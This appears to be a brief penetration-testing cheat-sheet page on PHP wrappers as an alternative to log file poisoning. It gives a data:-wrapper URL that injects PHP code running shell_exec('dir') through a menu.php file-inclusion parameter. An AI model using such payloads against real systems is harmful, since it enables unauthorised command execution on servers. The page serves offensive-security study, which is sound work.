 ```yaml
---
title: PHP Wrappers
layout: default
nav_order: 3
parent: Web Apps
grand_parent: Exploitation
---
```


# Log File Poisoning
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### PHP Wrapper
PHP wrappers are an exploit path if the Apache log cache cannot be poisoned. 

Sending `Hello world` text as input
```bash
http://$IP/menu.php?file=data:text/plain,hello world
```

PHP command injection
```bash
http://$IP/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```